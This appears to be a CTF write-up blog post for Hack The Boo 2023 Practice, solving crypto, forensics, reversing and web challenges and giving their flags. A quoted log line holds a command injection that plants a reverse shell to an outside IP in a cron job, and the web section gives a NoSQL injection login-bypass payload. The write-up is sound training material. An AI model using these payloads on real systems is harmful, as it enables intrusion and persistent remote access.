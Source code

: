 ```yaml
---
author: pl4int3xt
layout: post
title: Hack The Boo - 2023 Practice
date: '2023-10-26 10:02:19 +0300'
description: "Hack The Boo 2023 Practice CTF"
cover: 1.jpg
useRelativeCover: true
categories: [Capture The Flag]
---
```

## Crypto
### Hexoding
```python
def main():
    first_half = FLAG[:len(FLAG)//2]
    second_half = FLAG[len(FLAG)//2:]

    hex_encoded = to_hex(first_half)
    base64_encoded = to_base64(second_half)

    with open('output.txt', 'w') as f:
        f.write(f'{hex_encoded}\n{base64_encoded}')
```
The first half is hex encoded while the other half is base64 encoded. After decoding the output we get the flag
```bash
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## Forensics
### Vulnerable season
We grep for 200 ok logs then we find this log
```bash
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
We build the base64 string from the echo pattern and we decode it
```bash
echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```
The flag is written from backwards so we reverse it and get this
```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```
### Spooky Phishing
After opening the index.html file the file tries to download a file from the url with the flag
```
https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe
```
## Reversing
### CandyBowl
We runs strings for the candy bowl binary and boom we get the flag 
```
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```
## Web 
### CandyVault
The website is using mongodb so we try nosql injection with the following payload
```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```
Then we have to change the content type before sending the request
```
Content-Type: application/json
```
Then we get the page with the flag
```
HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}
```